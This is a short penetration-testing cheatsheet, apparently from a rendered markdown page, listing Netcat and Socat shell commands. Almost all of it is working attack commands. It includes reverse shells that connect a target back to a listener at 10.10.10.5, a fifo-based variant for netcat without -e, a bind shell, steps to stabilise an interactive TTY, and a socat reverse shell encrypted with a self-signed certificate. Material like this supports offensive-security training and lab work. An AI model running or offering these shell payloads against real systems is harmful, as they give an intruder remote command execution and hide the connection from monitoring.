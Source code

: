 
## 9. Cheatsheet

### Netcat
- **Reverse Shell**:
  ```bash
  # Listener
  sudo nc -lvnp 443
  # Target (Linux)
  nc 10.10.10.5 443 -e /bin/bash
  # Target (Linux, no -e)
  mkfifo /tmp/f; nc 10.10.10.5 443 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
  ```
- **Bind Shell**:
  ```bash
  # Target
  nc -lvnp 4444 -e /bin/bash
  # Attacker
  nc 10.10.10.100 4444
  ```
- **Stabilization**:
  ```bash
  python3 -c 'import pty;pty.spawn("/bin/bash")'
  export TERM=xterm
  # Ctrl+Z
  stty raw -echo; fg
  ```

### Socat
- **Reverse Shell**:
  ```bash
  # Listener
  socat TCP-L:443 -
  # Target (Linux)
  socat TCP:10.10.10.5:443 EXEC:"bash -li"
  ```
- **Stable TTY**:
  ```bash
  # Listener
  socat TCP-L:443 FILE:`tty`,raw,echo=0
  # Target
  socat TCP:10.10.10.5:443 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
  ```
- **Encrypted**:
  ```bash
  # Cert
  openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
  cat shell.key shell.crt > shell.pem
  # Listener
  socat OPENSSL-LISTEN:443,cert=shell.pem,verify=0 -
  # Target
  socat OPENSSL:10.10.10.5:443,verify=0 EXEC:"bash -li"
  ```
